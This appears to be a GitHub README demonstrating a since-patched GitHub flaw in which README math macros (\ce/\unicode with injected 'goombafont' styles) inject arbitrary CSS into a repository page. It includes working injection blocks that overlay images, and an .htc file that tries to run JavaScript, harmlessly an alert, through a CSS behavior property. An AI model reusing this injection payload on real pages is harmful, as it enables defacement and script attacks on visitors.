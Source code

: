 
# GITHUB CSS VULN TEST >_<
![image](https://github.com/tr4xnz/css-vuln/assets/171883047/f068a0ae-8df2-4bbf-9fee-ec912725a884)

The Github CSS Vuln, a vulnerability where README.md macros were exploited to edit the CSS on one's repository's page, and it'll be stored on the server.
This vulnerability's discovery was very surprising as Github is like a huge platform where major companies and developers share their projects and ideas.
Luckily the vulnerability was patched.

I still believed that an XSS attack was possible using CSS's ability to load in .htc files to run Javascript code.

## script.htc
```htc
<PUBLIC:COMPONENT TAGNAME="xss">
  <PUBLIC:ATTACH EVENT="ondocumentready" ONEVENT="main()" LITERALCONTENT="false"/>
</PUBLIC:COMPONENT>
<SCRIPT>
  function main() {
    alert("Welcome to my github repo, ik very cool :P");
  }
</SCRIPT>
```

```diff
Hello i am tr4xnz
```

```math
\ce{$\unicode[goombafont; color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; background-repeat: no-repeat; height: 300px; object-fit: cover; width: 300px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 5vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; left: 0; top: 12vh; background-repeat: no-repeat; height: 280px; object-fit: cover; width: 280px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 0; top: 4vh; background-repeat: no-repeat; height: 252px; object-fit: cover; width: 340px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover]{x0000}$}
\ce{$\unicode[goombafont; color:red; z-index: 1000; position: fixed; right: 2vh; bottom: 0; background-repeat: no-repeat; height: 249px; object-fit: cover; width: 213px; background: url('https://raw.githubusercontent.com/tr4xnz/css-vuln/master/Untitled.png'); background-size: cover; behavior:url('script.htc')]{x0000}$}


```
